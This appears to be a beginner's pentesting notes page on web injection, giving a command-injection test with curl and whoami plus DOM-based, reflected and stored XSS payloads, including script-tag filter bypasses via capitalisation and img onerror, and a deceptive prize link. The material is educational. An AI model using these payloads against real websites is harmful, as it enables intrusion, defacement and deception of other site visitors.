 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Injection

Occurs when we find a way of sending html, css, js code, database petitions and others, via a petition or URL of a website.

## <mark style="color:orange;">**Example**</mark>

* Manage a petition using system()

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#We send a petition with cmd=$command, this will let us now if we can have access to a terminal of the machine
curl -X POST http://192.168.20.40:8000/?msg -d "cmd=whoami"
```
{% endcode %}

***



## <mark style="color:purple;">Cross-site Scripting</mark>

&#x20;XSS scripting allows execution of javascript maliciuos code

### DOM-based

Mutate html document of a page

* Example

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">#We select language in a slider and is reflected on url
http://url?language=en

#Check html of page
&#x3C;select name="default">
<strong>  &#x3C;script>
</strong><strong>  ...
</strong>    document.write("&#x3C;option value='"+lang+"'>"+decodeURI(lang) + "&#x3C;/option>");
  ...
  &#x3C;/script>
&#x3C;/select>

#Use ' to close "value" parameter and then close tags
http://url?language='>&#x3C;/option>&#x3C;/select>

'#Then create whatever tag
http://url?language='>&#x3C;/option>&#x3C;/select>&#x3C;h1>HACKED&#x3C;/h1>

'#Even js code
http://url?language='>&#x3C;/option>&#x3C;/select>&#x3C;script>if(window.confirm('HACKED\nTry TO CALL FOR HELP?')){window.open('https://www.youtube.com/watch?v=dQw4w9WgXcQ');};&#x3C;/script>
</code></pre>

***

* When it is script tag filtering

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Use image tag,putting a bad source cause a error, we handle it with 'onerror' parameter that let us insert JS Code
http://url?language='></option></select><img src=x onerror='alert("HACKED")'/>
```
{% endcode %}

***

### Reflected:&#x20;

When URL or form parameters are displayed on screen of the page

* A parameter sent in the query of the url is shown in screen

<pre class="language-bash" data-overflow="wrap" data-line-numbers data-full-width="false"><code class="lang-bash"># We made a get to http://192.168.20.40:8000/?msg=Hello
# The site Return "Hello" in any part of the html
#Then we could do something like this to inject code
<strong>curl http://192.168.20.40:8000/?msg=&#x3C;script>$payload&#x3C;/script>
</strong></code></pre>

***

* A parameter sent in the query of the url is shown in screen

<pre class="language-bash" data-overflow="wrap" data-line-numbers data-full-width="false"><code class="lang-bash"># We insert Hello in a formulary
# The site Return "Hello" in any part of the html
#Then we could fill the form to inject code
<strong>&#x3C;script>$payload&#x3C;/script>
</strong><strong>
</strong><strong>#Something tag filter can be by pass by using capital letters
</strong>&#x3C;SCRIPT>$payload&#x3C;/SCRIPT>

#Or using img tag
&#x3C;img src=x onerror='alert("HACKED")'/>
</code></pre>

***

### Stored:

The input of values is saved by the web and display to anyone who browse to the site. Maliciuos code in the same way will remain globally in the web site.

* A formulary show a list of entries

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#We insert name and comment in the formulary
#Every time an insertion is done the website update a list with the entries that is displayed to every user
#Then we could fill the form to inject code
<a href="https://www.youtube.com/watch?v=dQw4w9WgXcQ">CLICK HERE TO WIN A PRIZE</a>
```
{% endcode %}

***

